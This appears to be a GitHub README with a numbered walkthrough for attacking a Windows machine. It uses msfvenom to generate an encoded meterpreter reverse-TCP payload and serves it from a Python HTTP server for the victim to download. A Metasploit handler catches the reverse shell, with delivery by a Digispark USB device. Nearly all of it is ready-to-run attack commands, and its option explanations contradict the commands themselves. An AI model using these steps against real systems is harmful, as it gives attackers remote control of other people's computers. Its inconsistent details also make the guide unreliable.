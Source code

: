 ## TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 4 -  msfconsole

STEP 5 -  msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -o payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:

|-a x86: set the architecture to x86

|–platform Windows: set the target platform to Windows

|-p windows/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.1.9: set the local host to 192.168.1.9

|LPORT=4444: set the local port to 4444

|-i 10: flag specifies the number of iterations for the encoder to use 	

|-e x86/shikata_ga_nai: encode the payload with the shikata_ga_nai encoder

|-f exe: output the payload as a Windows executable

|-o payload.exe: name the output file as payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

payload will be generated. Open the file explorer in kali,

look for the payload then open a new terminal in that location where there is payload. 



## TERMINAL-2.



STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)



## now go back to the TERMINAL-1.



STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.74       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)



## NOW YOU HAVE TO INSERT THE DIGISPARK ATTINY85 USB WITH THE REVERSE SHELL SCRIPT CREATED BY DEVILWHITE0 TO GET THE SUCESSFULLREVERSE SHELL. 



STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of windows)








____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


